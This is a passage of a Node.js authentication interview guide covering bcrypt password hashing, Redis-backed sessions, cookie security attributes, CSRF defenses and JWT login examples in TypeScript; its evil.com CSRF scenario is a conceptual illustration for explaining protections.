# Node.js Authentication & Login — Technical Interview Guide

## Purpose

This document summarizes and expands the authentication discussion for a technical interview involving a Node.js web application.

The main topics are:

1. Traditional session-based authentication
2. Password hashing with bcrypt
3. Cookies and session cookies
4. Redis as a session store
5. Session secrets
6. Authentication vs authorization
7. CSRF and CSRF protection
8. JWT authentication
9. JWT stored in cookies
10. JWT stored in Authorization headers
11. Session-based authentication vs JWT
12. Security considerations and interview talking points

---

# 1. Authentication: The Big Picture

Authentication answers:

> **Who is this user?**

Authorization answers:

> **What is this authenticated user allowed to do?**

A typical login flow is:



The key design decision is how the server represents the user's authenticated state after successful login.

Two common approaches are:

- **Server-side sessions**
- **Token-based authentication using JWTs**

---

# 2. User Database Model

A basic users table could look like:

```sql
CREATE TABLE users (
    id UUID PRIMARY KEY,
    email VARCHAR(255) UNIQUE NOT NULL,
    password_hash VARCHAR(255) NOT NULL,
    name VARCHAR(255),
    role VARCHAR(50) NOT NULL DEFAULT 'USER',
    created_at TIMESTAMP NOT NULL
);
```

Notice that there is no plaintext `password` column.

We store:

```text
password_hash
```

not:

```text
password
```

Passwords should never be stored in plaintext.

---

# 3. Password Hashing with bcrypt

## 3.1 Why hash passwords?

If the database is compromised, plaintext passwords would immediately be exposed.

Instead, we transform the password using a password-hashing algorithm:



The hash is one-way: we do not decrypt it during login.

---

## 3.2 Registration

Example:

```ts
import bcrypt from "bcrypt";

const passwordHash = await bcrypt.hash(password, 12);

await db.user.create({
  data: {
    email,
    passwordHash,
    name,
  },
});
```

If the password is:

```text
myPassword123
```

the database contains something similar to:

```text
$2b$12$...
```

The actual value is much longer.

---

# 4. What Does the `12` Mean in bcrypt?

The second argument:

```ts
bcrypt.hash(password, 12);
```

is the **cost factor**, also called the work factor.

bcrypt deliberately makes password hashing computationally expensive.

Conceptually:

```text
cost 10 -> 2^10 work
cost 11 -> 2^11 work
cost 12 -> 2^12 work
cost 13 -> 2^13 work
```

Increasing the cost by one approximately doubles the computational work.

The exact runtime depends on the CPU, bcrypt implementation, server load, and environment. In a production system, the appropriate value should be selected and benchmarked rather than relying on a universal millisecond value.

The purpose is to make password guessing expensive for an attacker.

For example, an attacker might try:

```text
password
123456
qwerty
password123
...
```

If each guess requires significant CPU work, large-scale brute-force attacks become more expensive.

---

# 5. bcrypt Salt

bcrypt automatically generates a random **salt** when hashing a password.

For example:


Another user:



Even though the password is identical, the hashes will be different.

This is intentional.

---

## 5.1 Is the salt secret?

No.

The salt is intentionally **not secret**.

A bcrypt hash contains information needed for verification, including:

- bcrypt version
- cost factor
- salt
- resulting hash

Conceptually:

```text
$2b$12$[salt................][hash................]
 |    |       |                    |
 |    |       |                    +-- password hash
 |    |       +----------------------- salt
 |    +------------------------------- cost = 12
 +------------------------------------ bcrypt version
```

An attacker who steals the database can see the salt.

That is okay.

The salt's purpose is not to hide the password.

Its purpose is to ensure that:

1. Identical passwords produce different hashes.
2. Precomputed/rainbow-table attacks become much less useful.
3. An attacker cannot easily identify users who share the same password simply by comparing hashes.

---

## 5.2 How does bcrypt verify the password?

During login:

```ts
const valid = await bcrypt.compare(
  enteredPassword,
  user.passwordHash
);
```

bcrypt extracts the cost and salt from the stored hash and performs the appropriate computation.

Conceptually:



If they match, the password is valid.

---

# 6. Traditional Session-Based Authentication

This is the implementation we originally discussed.

The architecture is:



The browser does not store the actual authentication state.

Instead, the browser receives a session cookie containing a session identifier.

The server stores the session data.

---

# 7. Packages for Session Authentication

Typical packages:

```bash
yarn add express express-session connect-redis redis bcrypt
```

Useful additional security packages:

```bash
yarn add helmet express-rate-limit
```

TypeScript types:

```bash
yarn add -D @types/express @types/express-session @types/bcrypt
```

### Package responsibilities

| Package | Purpose |
|---|---|
| `express` | HTTP server/framework |
| `express-session` | Session management |
| `connect-redis` | Redis-backed session store |
| `redis` | Redis client |
| `bcrypt` | Password hashing and verification |
| `helmet` | Security-related HTTP headers |
| `express-rate-limit` | Rate limiting |

---

# 8. Why Redis?

`express-session` should not use its default in-memory store for production applications.

Imagine two Node.js servers:



If the user's session is stored only in Server A's memory, Server B does not know about it.

Redis gives both servers access to the same session store:



Redis is therefore useful when the application is horizontally scaled.

---

# 9. Configuring express-session

Example:

```ts
import express from "express";
import session from "express-session";
import { RedisStore } from "connect-redis";
import { createClient } from "redis";

const app = express();

const redisClient = createClient({
  url: process.env.REDIS_URL,
});

await redisClient.connect();

app.use(
  session({
    store: new RedisStore({
      client: redisClient,
    }),

    secret: process.env.SESSION_SECRET!,

    resave: false,

    saveUninitialized: false,

    cookie: {
      httpOnly: true,
      secure: process.env.NODE_ENV === "production",
      sameSite: "lax",
      maxAge: 1000 * 60 * 60 * 24,
    },
  })
);
```

In a real production deployment, HTTPS should be used, so `secure` should be enabled.

---

# 10. What Is the Session Secret?

The session secret is:

```ts
secret: process.env.SESSION_SECRET
```

It is a **server-side secret** used by `express-session` to protect/sign the session cookie.

In the express-session npm package, the secret is a required string configuration used to sign the session ID cookie. This signature acts as a security tamper-evident seal, ensuring the server can verify whether a client has altered their session ID cookie

What Does the Secret Actually Do?
1. **Signs, It Doesn't Encrypt:** A common misconception is that the secret encrypts the data inside the cookie. In express-session, the raw session data is stored safely on the server (e.g., in Memory, Redis, or MongoDB). The client browser only receives a unique Session ID cookie.

2. **Generates an HMAC Signature:** The middleware takes the unique Session ID, combines it with your secret string, and hashes it using HMAC-256 to generate a cryptographic signature.

3. **Prevents Tampering:** The cookie sent to the client looks like this: s:<session-id>.<signature>. When the client makes a new request, express-session reads the ID, re-calculates the signature using your secret, and matches it against the client's signature. If they don't match, the server knows the cookie was tampered with and rejects the session

It is different from:

- bcrypt salt
- bcrypt cost
- user's password
- Redis session data

___

> **Side note: What is HMAC-SHA256?**
>
> - **HMAC (Hash-based Message Authentication Code):** Unlike a standard hash (like a file checksum), an HMAC requires a secret key. It doesn't just prove *"this data hasn't changed"* — it proves *"this data hasn't changed **and** it was created by someone who holds the correct secret key"*.
> - **SHA-256:** The underlying cryptographic hash function. It takes any amount of data and processes it into a fixed 256-bit (32-byte) output.
>
> **Where is it used?**
> Because it is lightweight, fast, and secure, HMAC-SHA256 is the standard choice for:
>
> - **Cookie signing:** Used natively by packages like `express-session` or `cookie-parser` to ensure users don't manipulate their session IDs.
> - **JWTs (JSON Web Tokens):** The popular `HS256` algorithm used to sign web tokens is literally HMAC-SHA256.
> - **Webhooks:** Platforms like Stripe or GitHub send a signature header (e.g. `X-Hub-Signature-256`) calculated via HMAC-SHA256 so your backend can verify the webhook actually came from them.

___


The session secret must be kept secret.

Do not hard-code it:

```ts
// Bad
secret: "my-secret"
```

Instead:

```ts
secret: process.env.SESSION_SECRET
```

and store the secret securely outside the source code.

---

# 11. bcrypt Salt vs Session Secret

This distinction is important in interviews.

| Item | Secret? | Purpose |
|---|---:|---|
| bcrypt salt | No | Makes password hashes unique |
| bcrypt cost | No | Controls bcrypt computational cost |
| session secret | Yes | Protects/signs session cookies |
| user's password | Yes | Authentication credential |

The salt can safely be stored with the password hash.

The session secret should only be available to trusted backend processes.

---

# 12. Login Endpoint — Session Approach

Example:

```ts
app.post("/api/login", async (req, res) => {
  const { email, password } = req.body;

  const user = await db.user.findUnique({
    where: { email },
  });

  if (!user) {
    return res.status(401).json({
      message: "Invalid email or password",
    });
  }

  const passwordValid = await bcrypt.compare(
    password,
    user.passwordHash
  );

  if (!passwordValid) {
    return res.status(401).json({
      message: "Invalid email or password",
    });
  }

  req.session.userId = user.id;

  return res.json({
    user: {
      id: user.id,
      email: user.email,
      name: user.name,
    },
  });
});
```

A production implementation should also consider:

- rate limiting
- session regeneration after login
- account lockout/throttling policies where appropriate
- generic authentication errors
- logging/security monitoring

---

# 13. Session Regeneration After Login

A useful security practice is regenerating the session after authentication:

```ts
req.session.regenerate((err) => {
  if (err) {
    return res.status(500).end();
  }

  req.session.userId = user.id;

  res.json({
    message: "Logged in",
  });
});
```

This helps protect against **session fixation**.

The idea is that the session identifier used before authentication should not simply become the authenticated session identifier.

---

# 14. TypeScript Session Typing

With TypeScript:

```ts
declare module "express-session" {
  interface SessionData {
    userId: string;
  }
}
```

Now TypeScript understands:

```ts
req.session.userId
```

---

# 15. Authentication Middleware

Authentication logic should not be repeated in every endpoint.

Create middleware:

```ts
function requireAuth(
  req: Request,
  res: Response,
  next: NextFunction
) {
  if (!req.session.userId) {
    return res.status(401).json({
      message: "Unauthorized",
    });
  }

  next();
}
```

Use it:

```ts
app.get(
  "/api/profile",
  requireAuth,
  async (req, res) => {
    const user = await db.user.findUnique({
      where: {
        id: req.session.userId,
      },
    });

    res.json(user);
  }
);
```

Request flow:



---

# 16. Logout — Session Approach

Logout destroys the server-side session:

```ts
app.post("/api/logout", (req, res) => {
  req.session.destroy((err) => {
    if (err) {
      return res.status(500).json({
        message: "Could not log out",
      });
    }

    res.clearCookie("connect.sid");

    res.sendStatus(204);
  });
});
```

The important point is that the authentication state is removed from the server-side session store.

---

# 17. What Is the Session Cookie?

After successful login, the browser receives something conceptually like:

```http
Set-Cookie: connect.sid=abc123...
```

The browser automatically sends it back:

```http
Cookie: connect.sid=abc123...
```

The cookie normally represents a session identifier.

Conceptually:



Therefore:

> The browser holds the session identifier; Redis holds the actual server-side session data.

---

# 18. Cookie Security Attributes

## HttpOnly

```ts
httpOnly: true
```

Prevents normal JavaScript from reading the cookie.

This helps reduce the ability of an XSS attack to directly steal the session cookie.

It does NOT by itself prevent CSRF.

---

## Secure

```ts
secure: true
```

The cookie is sent only over HTTPS.

Production authentication cookies should use HTTPS.

---

## SameSite

```ts
sameSite: "lax"
```

Controls when the browser sends the cookie in cross-site contexts.

Possible values include:

```text
Strict
Lax
None
```

`SameSite` is an important CSRF defense, but the correct setting depends on the application's architecture.

---

# 19. Authentication vs Authorization

Authentication:

> Who are you?

Authorization:

> What are you allowed to do?

Example:

```text
Authentication:
session -> userId 42

Authorization:
user 42 -> role ADMIN
```

A route could require both:



Role-Based Access Control (RBAC) is a common authorization model.

---

# 20. CSRF — Cross-Site Request Forgery

CSRF is an attack where an attacker causes a victim's browser to make a state-changing request to a site where the victim is already authenticated.

The problem is particularly relevant to cookie-based authentication because browsers automatically attach cookies.

Imagine:



The user then visits:

```text
evil.com
```

The malicious site attempts to cause:

```http
POST https://bank.com/transfer
```

The browser may attach:

```http
Cookie: sessionId=abc123
```

The bank server sees a valid authenticated session.

That is the basic CSRF problem.

---

# 21. CSRF Protection

## 21.1 SameSite Cookies

Example:

```ts
cookie: {
  sameSite: "lax"
}
```

SameSite restricts cross-site cookie sending.

This is a major baseline defense.

---

## 21.2 CSRF Tokens

A server can require a random CSRF token for state-changing requests.

Example:

```http
POST /api/change-email

Cookie: sessionId=abc123
X-CSRF-Token: random-token

email=new@example.com
```

The server verifies:



A malicious website should not be able to obtain the legitimate CSRF token because of browser same-origin restrictions.

---

## 21.3 Double Submit Cookie

Another pattern:

```text
Cookie:
csrfToken=abc123
```

and:

```http
X-CSRF-Token: abc123
```

The server compares the two values.

The implementation needs secure random token generation and careful cookie configuration.

---

## 21.4 Origin Validation

For state-changing requests, the server can validate:

```http
Origin: https://myapp.com
```

against the application's allowed origins.

A request from:

```text
https://evil.com
```

can be rejected.

`Origin` validation is generally preferable to relying exclusively on `Referer`, because Referer information can be omitted or reduced.

---

# 22. HttpOnly Does Not Prevent CSRF

This is a common interview trap.

```text
HttpOnly
    |
    +-- protects against JavaScript reading the cookie
```

but:

```text
SameSite
    |
    +-- helps prevent unwanted cross-site cookie sending
```

and:

```text
CSRF token
    |
    +-- requires an additional request-specific/secret value
```

Therefore:

> HttpOnly is not a CSRF defense by itself.

---

# 23. CORS Is Not a Complete CSRF Defense

CORS controls cross-origin browser behavior, especially whether JavaScript is allowed to read responses.

It should not be treated as the primary CSRF protection mechanism.

CSRF defenses should be designed explicitly using mechanisms such as:

- SameSite cookies
- CSRF tokens
- Origin validation
- appropriate request design

---

# 24. JWT Authentication

JWT means:

> **JSON Web Token**

A JWT is a signed token containing claims.

A JWT has three parts:

```text
HEADER.PAYLOAD.SIGNATURE
```

Example conceptually:

```json
{
  "sub": "user-123",
  "role": "USER",
  "exp": 1790800000
}
```

The payload is encoded, not encrypted.

Therefore:

> Do not put secrets or sensitive data into a JWT payload merely because it is encoded.

The signature provides integrity/authenticity: the server can verify that the token was generated by a trusted signer and has not been modified.

---

# 25. JWT Header

Conceptually:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

The algorithm describes how the JWT is signed.

Common categories include:

- symmetric signing such as HMAC
- asymmetric signing such as RSA/ECDSA/EdDSA families

With symmetric signing:

```text
server signs with secret
server verifies with same secret
```

With asymmetric signing:

```text
private key -> signs
public key  -> verifies
```

Asymmetric signing can be useful when multiple services need to verify tokens without having access to the private signing key.

---

# 26. JWT Payload

Example:

```json
{
  "sub": "123",
  "role": "USER",
  "iat": 1790796400,
  "exp": 1790800000
}
```

Common registered claims include:

| Claim | Meaning |
|---|---|
| `sub` | Subject, commonly user ID |
| `iss` | Issuer |
| `aud` | Audience |
| `exp` | Expiration time |
| `iat` | Issued-at time |
| `nbf` | Not valid before |

Claims should be kept minimal.

For example:

```text
sub = user ID
role = role
exp = expiration
```

There is usually no reason to put a password, password hash, or sensitive personal information in a JWT.

---

# 27. JWT Signature

Conceptually:



The final token is:

```text
header.payload.signature
```

If somebody modifies:

```json
"role": "USER"
```

to:

```json
"role": "ADMIN"
```

the signature no longer matches.

The server rejects the token.

---

# 28. JWT Login Flow

A typical JWT login process:



---

# 29. Creating a JWT in Node.js

Using the `jsonwebtoken` package:

```bash
yarn add jsonwebtoken
```

TypeScript types:

```bash
yarn add -D @types/jsonwebtoken
```

Example:

```ts
import jwt from "jsonwebtoken";

const token = jwt.sign(
  {
    sub: user.id,
    role: user.role,
  },
  process.env.JWT_SECRET!,
  {
    expiresIn: "15m",
  }
);
```

The token is signed using a server-side secret.

The secret must be protected.

---

# 30. JWT Stored in an HttpOnly Cookie

JWT does not have to be stored in localStorage.

It can be placed in a cookie:

```ts
res.cookie("access_token", token, {
  httpOnly: true,
  secure: true,
  sameSite: "lax",
  maxAge: 15 * 60 * 1000,
});
```

The browser stores:

```text
access_token=<JWT>
```

and automatically sends it to the relevant server.

The server can then read the cookie and verify the JWT.

---

# 31. Express JWT Login Example

A simplified implementation:

```ts
import jwt from "jsonwebtoken";

app.post("/api/login", async (req, res) => {
  const { email, password } = req.body;

  const user = await db.user.findUnique({
    where: { email },
  });

  if (!user) {
    return res.status(401).json({
      message: "Invalid email or password",
    });
  }

  const valid = await bcrypt.compare(
    password,
    user.passwordHash
  );

  if (!valid) {
    return res.status(401).json({
      message: "Invalid email or password",
    });
  }

  const token = jwt.sign(
    {
      sub: user.id,
      role: user.role,
    },
    process.env.JWT_SECRET!,
    {
      expiresIn: "15m",
      issuer: "my-api",
      audience: "my-web-app",
    }
  );

  res.cookie("access_token", token, {
    httpOnly: true,
    secure: true,
    sameSite: "lax",
    maxAge: 15 * 60 * 1000,
  });

  return res.json({
    user: {
      id: user.id,
      email: user.email,
      name: user.name,
    },
  });
});
```

The important difference from the session example is:

Session:

```ts
req.session.userId = user.id;
```

JWT:

```ts
